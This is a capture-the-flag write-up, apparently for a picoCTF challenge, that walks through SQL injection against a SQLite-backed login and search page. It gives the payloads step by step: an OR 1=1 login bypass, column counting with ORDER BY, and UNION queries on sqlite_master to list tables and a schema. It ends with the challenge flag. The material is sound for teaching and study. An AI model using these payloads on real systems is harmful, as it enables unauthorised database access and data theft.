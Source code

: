# More SQLi

Login page, gives you the query it is executing

`SELECT id FROM users WHERE password = '' AND username = ''`

Password gets checked first. We can login as a random user with `' OR 1=1 -- `

Presents us with another database and we can search the query.

![Image of database](media/img1.PNG)

We can query the table names in sqllite through 
`SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- `

We can guess the query to be something like 

`SELECT city, address, phone FROM OFFICE WHERE city = '<input>'`

Given query returns 3 columns through error checking with
`' or 1=1 order by 4 -- ` returning nothing

Injection to get the names of all tables in database

`' or 1=1 union SELECT tbl_name, null, null FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- `

![Image of database](media/img2.PNG)

Now to find column information in the more_table table

`' or 1=1 union SELECT sql, null, null FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='more_table' --` 

![Image of database](media/img3.PNG)

Finally querying more_table gives us the flag

`' or 1=1 union select id, flag, null from more_table -- `

picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}	